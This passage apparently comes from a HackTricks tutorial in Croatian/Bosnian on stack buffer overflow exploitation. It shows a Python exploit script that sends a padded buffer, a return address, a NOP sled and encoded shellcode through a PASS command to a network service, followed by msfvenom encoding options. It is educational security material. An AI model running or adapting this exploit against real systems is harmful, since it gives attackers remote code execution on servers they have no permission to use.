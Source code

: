 ```bash
"\xee\x92\x4e\x2d\x25\x17\x7e\x64\x67\x3e\x17\x21\xf2\x02\x7a"
"\xd2\x29\x40\x83\x51\xdb\x39\x70\x49\xae\x3c\x3c\xcd\x43\x4d"
"\x2d\xb8\x63\xe2\x4e\xe9"
)

buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + "\x90" * 8 + shellcode
try:
print "\nLaunching exploit..."
s.connect((ip, port))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nFinished!."
except:
print "Could not connect to "+ip+":"+port
```

{% hint style="warning" %}
Postoje shellkodovi koji će **prepisati sami sebe**, stoga je važno uvijek dodati nekoliko NOP naredbi prije shellkoda.
{% endhint %}

## Poboljšanje shellkoda

Dodajte ove parametre:

```
EXITFUNC=thread -e x86/shikata_ga_nai
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
